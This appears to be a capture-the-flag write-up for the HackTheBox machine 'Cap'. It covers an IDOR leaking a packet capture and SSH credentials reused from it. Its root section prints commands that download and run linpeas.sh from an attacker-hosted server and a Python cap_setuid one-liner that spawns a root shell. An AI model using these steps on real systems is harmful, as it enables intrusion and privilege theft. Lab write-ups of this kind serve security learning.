





# Cap



__Machine IP__: 10.10.10.160

__DATE__ : 9/11/2019

# Machine Info
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. 

# FootHold 

## NMAP


## HTTP

After looking around I have noticed that in the security snapshot I was getting different URLs with different data types

example
10.10.10.245/data/2

## GoBuster

__NOTE: Had help was told to look at the sizes more carefully. Lost couple of hours here and decided to get hint__

we can see that there is 3 different sizes


**17144** had no packets

**17153** was data of my GoBuster

**17147** there was an interesting PCAP

# USER

## PCAP

We use WireShark to open and read this file. It takes less than 2 minutes to see we have a user and password

we know SSH in open lets try it

After we connected to SSH we can see the user.txt

# ROOT
I have decided to run Linpeas.sh while also manually privilege escalating

My folder with linpeas.sh
```bash
python3 -m http.server 8080
```
victim 
```bash
w get http:$MyIP:8080/linpeas.sh

chmod +x linpeas.sh

./linpeas
```


linpeas detects vulnerability in Capabilities

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

I use GTFObins select Python and Capabilities 


```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

I get root and cat the root.txt

Machines PWNED
